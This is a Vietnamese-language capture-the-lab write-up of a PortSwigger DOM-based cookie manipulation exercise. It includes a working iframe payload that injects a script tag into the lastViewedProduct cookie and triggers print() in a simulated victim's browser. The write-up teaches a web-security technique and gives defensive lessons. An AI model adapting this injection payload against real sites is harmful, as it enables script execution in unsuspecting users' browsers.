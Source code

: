 # Write-ups: DOM-based cookie manipulation

### Tổng quan
Khai thác lỗ hổng DOM-based XSS trong chức năng hiển thị sản phẩm của ứng dụng, nơi cookie `lastViewedProduct` chứa URL sản phẩm (`/product?productId=1`) được hiển thị trực tiếp trong thẻ `<a>` mà không xử lý an toàn. Điều này cho phép kẻ tấn công thao túng giá trị cookie để tiêm payload XSS, thực thi mã JavaScript trên trình duyệt nạn nhân. Bằng cách sử dụng iframe trong Exploit Server để chèn payload XSS và kích hoạt `print()`, kẻ tấn công khai thác lỗ hổng để hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng DOM-based XSS bằng cách thao túng cookie `lastViewedProduct` để tiêm payload XSS, thực thi lệnh `print()` trên trình duyệt nạn nhân và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Truy cập một sản phẩm bất kỳ và quan sát trong Burp Proxy HTTP history:
    ```
    Cookie: session=zfdp0QHSIFjcFDYlEUzXxoSHTRtOvFSk; lastViewedProduct=https://0a50007e034f424b805af82900a00009.web-security-academy.net/product?productId=1
    ```
- Phản hồi:
    - Trang chứa thẻ `<a>` hiển thị cookie lastViewedProduct:
    ```html
    <a href='https://0a50007e034f424b805af82900a00009.web-security-academy.net/product?productId=1'>Last viewed product</a>    
    ```
    - Giá trị cookie được hiển thị trực tiếp trong thuộc tính href mà không xử lý, cho thấy khả năng tiêm XSS:
        ![cookie](./images/1_cookie.png)

2. **Khai thác (Exploitation)**
- Tạo payload trong Exploit Server để thao túng cookie `lastViewedProduct` và tiêm XSS:
    ```html
    <iframe 
        src="https://0a50007e034f424b805af82900a00009.web-security-academy.net/product?productId=1&'><script>print()</script>"
        onload="
            if (!window.x) {
                this.src = 'https://0a50007e034f424b805af82900a00009.web-security-academy.net/product?productId=1';
                window.x = 1;
            }
        ">
    </iframe>
    ```
    ![body](./images/2_body.png)
- **Giải thích payload**:
    - Iframe tải URL `/product?productId=1` với thêm `&'><script>print()</script>`, làm giá trị cookie `lastViewedProduct` chứa payload XSS.
    - Thuộc tính `onload` kiểm tra `window.x` để tránh vòng lặp tải lại, sau đó đặt lại src về URL gốc và đặt `window.x = 1`.
- Store và view exploit:  thực thi lệnh `print()`
    ![exploit](./images/3_exploit.png)

- Gửi payload đến nạn nhân qua "Deliver exploit to victim" của Exploit Server và hoàn thành lab:
    ![solved](./images/4_solved.png)

### Bài học rút ra
- Hiểu cách khai thác DOM-based XSS bằng cách thao túng cookie `lastViewedProduct` để tiêm payload XSS, tận dụng việc hiển thị trực tiếp giá trị cookie trong thẻ `<a>` mà không xử lý an toàn.
- Nhận thức tầm quan trọng của việc xử lý an toàn dữ liệu cookie và kiểm tra đầu vào trước khi hiển thị trong HTML để ngăn chặn các cuộc tấn công XSS.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác DOM-based XSS thông qua thao túng cookie, nhấn mạnh tầm quan trọng của việc xử lý an toàn dữ liệu cookie và kiểm tra đầu vào để bảo vệ ứng dụng khỏi các cuộc tấn công XSS. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 8/2025.*